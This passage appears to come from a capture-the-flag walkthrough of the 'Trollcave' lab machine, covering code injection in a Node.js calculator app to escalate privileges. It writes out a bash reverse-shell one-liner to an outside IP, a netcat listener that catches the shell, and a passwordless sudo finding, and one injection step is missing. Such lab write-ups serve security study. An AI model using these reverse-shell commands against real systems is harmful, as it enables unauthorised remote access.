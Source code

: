 ![](/assets/images/trollcave/screenshot-14.png)

Using curl it is possible interact with the app.

```console
root@kali:~$ curl 'http://127.0.0.1:8888/calc?sum=1+1'
2 
```

## Privilege Escalation
### Code Injection - NodeJs Application

To exploit this vulnerability I was guided by [this](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44) site.

Set a listener with netcat on port 443.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
```

Run the request using curl, as shown below:

```console
rails@trollcave:~$ echo "bash -c 'bash -i >& /dev/tcp/172.16.71.1/443 0>&1'" > rev.sh
rails@trollcave:~$ chmod +x !$ 
chmod +x rev.sh 
```

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.71.1] from (UNKNOWN) [172.16.71.132] 51122
bash: cannot set terminal process group (5362): Inappropriate ioctl for device
bash: no job control in this shell
king@trollcave:~/calc$
```

### Sudo privileges

When listing the sudo rigths for the user **King**, I discovered that it is possible to execute any command as sudo without password.

